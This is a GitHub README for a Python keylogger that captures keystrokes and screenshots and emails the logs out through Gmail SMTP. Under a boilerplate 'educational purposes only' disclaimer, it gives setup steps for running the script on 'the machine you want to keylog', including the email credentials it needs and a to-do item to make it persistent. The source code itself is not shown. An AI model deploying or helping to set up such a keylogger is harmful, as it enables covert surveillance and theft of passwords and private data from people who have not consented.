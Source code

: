 # Copyright (C) 2020  Cennef0x
# Python-Keylogger
Python Keylogger with screenshots

This program is free software: you can redistribute it and/or modify it

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
This script was made available for informational and educational purposes only.
Any actions and or activities related to the material contained within this Repository is solely your responsibility.The misuse of these scripts can result in criminal charges brought against the persons in question. Any actions and or activities related to the material contained within this repository is solely your responsibility.The misuse of the information in this repository can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the scripts in this repository to break the law.
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


This script use gmail smtp servers, you will need and account to send the keystrokes log.

STEP 1 - Install the requirements

STEP 2 - Add your API KEY into screenshoter.py at line 20

STEP 3 - Start the script from the console in the machine your want to keylog : 

python main.py "myemail@gmail.com" "myemailpassword" "theemailyouwanttosendthelogs@mail.com

To stop it close the cli or kill the process if you use executed this script without the console

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# To-Do 

- Make it persistent
